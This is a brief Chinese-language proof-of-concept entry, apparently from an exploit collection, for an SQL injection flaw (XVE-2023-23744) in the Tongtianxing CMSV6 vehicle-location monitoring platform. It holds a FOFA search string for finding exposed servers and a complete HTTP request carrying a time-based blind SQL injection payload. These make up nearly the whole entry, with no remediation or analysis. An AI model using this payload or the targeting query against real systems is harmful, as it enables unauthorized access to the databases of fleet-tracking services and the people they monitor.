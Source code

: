 ## 通天星CMSV6车载定位监控平台SQL注入漏洞(XVE-2023-23744)



## fofa

```
ody="/808gps/"
```



## poc

```
GET /run_stop/delete.do;downloadLogger.action?ids=1)+AND+(SELECT+5394+FROM+(SELECT(SLEEP(5)))tdpw)--+&loadAll=1 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

